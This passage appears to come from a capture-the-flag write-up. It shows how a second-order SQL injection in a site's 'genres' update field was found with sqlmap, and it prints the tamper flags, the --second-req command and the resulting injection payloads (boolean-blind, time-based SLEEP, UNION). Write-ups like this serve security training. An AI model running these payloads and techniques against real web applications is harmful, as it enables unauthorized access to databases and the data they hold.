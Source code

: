 This was when I got stuck.

### 2nd Order SQL Injection -> API Login

The only point of weakness seems to be that 'Genre' updating feature, so I went straight into that. When viewing the payload used my `sqlmap`, I realised it was being sent without the spaces accounted for:

{% code overflow="wrap" %}
```
{"genres":"food,travel,nature')ORROW(3888,4310)>(SELECTCOUNT(*),CONCAT(0x71787a7a71,(SELECT(ELT(3888=3888,1))),0x71626a6b71,FLOOR(RAND(0)*2))xFROM(SELECT2102UNIONSELECT1050UNIONSELECT3584UNIONSELECT2456)aGROUPBYx)AND('PEfz'LIKE'PEfz"}
```
{% endcode %}

To resolve this, I used the `--tamper=space2plus` flag. While the `sqlmap` ran, I checked the other parts of the website. If we attempt to view the `/feed`, there is a weird error response captured:

<figure><img src="../../.gitbook/assets/image (1950).png" alt=""><figcaption></figcaption></figure>

This normally didn't happen because requests to this would return images with their IDs. This highlights that the injection results might only be viewable when we send a request here instead, thus making the website potentially vulnerable to 2nd order SQL Injection:

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap" %}

`sqlmap` has the flag `--second-req` to test this. I also noticed that the SQL Injections were still failing, so I tried different tampers such as `space2comment` instead, and it worked!

```
$ sqlmap -r req --tamper=space2comment --batch --second-req req2
---
Parameter: JSON genres ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"genres":"food,travel,nature') AND 1039=1039 AND ('IkOG'='IkOG"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"genres":"food,travel,nature') AND (SELECT 6642 FROM (SELECT(SLEEP(5)))gerB) AND ('DLAJ'='DLAJ"}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
```